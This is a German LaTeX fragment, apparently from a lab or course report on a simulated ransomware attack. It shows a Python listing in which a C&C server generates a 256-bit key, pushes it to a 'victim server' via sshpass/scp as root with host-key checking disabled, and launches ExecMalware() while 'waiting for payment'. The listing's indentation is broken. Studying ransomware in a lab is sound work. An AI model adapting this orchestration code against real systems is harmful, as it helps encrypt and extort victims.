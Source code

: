 \documentclass[12pt]{article}
\begin{document}
Sobald die Datei gefunden wurde, wird eine Meldung mit dem Dateipfad ausgegeben. Nun wird ein 256-Bit-Schlüssel anhand des 'secrets' Moduls erzeugt und in die Datei 'chkey.txt' geschrieben(Z. 14-15). Das ganze wird durch print-ausgaben beschrieben. Anschließend wird der Schlüssel sowie die Entschlüsselung dem Victim-Server zugesendet(Z. 23-26).\\ Abschließend wird der eigentliche Verschlüsselungstrojaner gestartet(Z.29). Der C\&C-Server wartet nun auf die Bezahlung des Opfers.

\begin{figure}
\caption{Python-Funktion zur Erzeugung des Schlüssels}
\begin{lstlisting}[language=python, style=code]
def wait_for_file(file_path, timeout=60):
start_time = time.time()
while not os.path.exists(file_path):
	if time.time() - start_time >= timeout:
		print("Timeout: Datei wurde nicht gefunden.")
		return False
		time.sleep(1)  # Warten Sie 1 Sekunde, bevor Sie erneut ueberpruefen
		
		print("Datei gefunden:", file_path)
		print("erzeuge schluessel")
		time.sleep(3)
		print("---------")
		
		key = secrets.token_bytes(32) # Erzeuge einen zufaelligen 256-Bit-Schluessel
		#key = os.urandom(32)  
		
		with open("chkey.txt", "wb") as keyfile:
		keyfile.write(key)
		
		print("schluessel erzeugt")
		time.sleep(3)
		print("sende schluessel")
		ostring = "sshpass -p " + "root"  +  " scp -o StrictHostKeyChecking=no chkey.txt "+ "root"+"@172.17.0.3:/root/../"
		os.system(ostring)
		
		#ostring = "sshpass -p " + "root"  +  " scp -o StrictHostKeyChecking=no decrypt.txt "+ "root"+"@172.17.0.3:/root"
		time.sleep(5)
		print("Fuehre verschluesselung durch")
		ExecMalware()
		print("Filesystem encrypted, waiting for payment")
\end{lstlisting}			
\end{figure}

\newpage



\subsection{Dateiverschlüsselung}
Die eigentliche Dateiverschlüsselung findet auf dem Victim-Server statt. Dieser hat nun den Schlüssel durch den C\&C-Server enthalten und kann die vorher ermittelten Kenndaten verschlüsseln.\\
Als Verschlüsselungsverfahren wurde ChaCha20 gewählt. Dies ist eine Modifikation von Salsa20 und bietet einige Optimierungen die zu mehr Diffusion und Performance führen[3]. 
Konkret ist ChaCha20 ein symmetrischer Stromchiffre-Algorithmus, der in erster Linie für die Verschlüsselung und Authentifizierung von Daten in kryptografischen Anwendungen verwendet wird. Er wurde von Daniel J. Bernstein entwickelt und zeichnet sich durch hohe Geschwindigkeit, Sicherheit und Effizienz aus.[4]
\end{document}
